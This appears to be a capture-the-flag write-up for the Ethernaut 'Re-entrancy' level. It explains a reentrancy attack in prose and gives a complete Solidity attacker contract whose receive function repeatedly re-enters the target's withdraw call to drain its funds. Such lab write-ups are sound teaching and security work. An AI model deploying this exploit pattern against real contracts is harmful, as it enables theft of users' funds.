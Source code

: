 # Re-entrancy Ethernaut

## Goals

=> Steal all the funds from the contract.

### Hints

- Untrusted contracts can execute code where you least expect it.
- Fallback methods
- Throw/revert bubbling
- Sometimes the best way to attack a contract is with another contract.
- See the "?" page above, section "Beyond the console"

### Solution

- So since we can withdraw the amount we have in balance and the withdraw function calls back to us we can just perform a reentrancy attack on the call to us which triggers our fallback function which then calls back to the vulnerable contract and our balance is still the same so we can call withdraw multiple times until our balance gets updated, I wrote a contract that looks for the balance of the contract, deposits this amount and then withdraws that amount, the callback to our receive function will then re enter the withdraw function for the rest of the contracts balance

### Attacker Contract

```solidity
contract Hack {
    Reentrance reentrance;
    uint256 contractValue;

    constructor(address payable _reentrance) public {
        reentrance = Reentrance(_reentrance);
    }

    receive() external payable {
        if (contractValue > 0) {
            reentrance.withdraw(contractValue);
        }
    }

    function attack() public payable {
        contractValue = address(reentrance).balance;
        require(contractValue > 0, "Contract is empty");
        reentrance.donate{value: contractValue}(address(this));
        reentrance.withdraw(contractValue);
    }

    function showBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
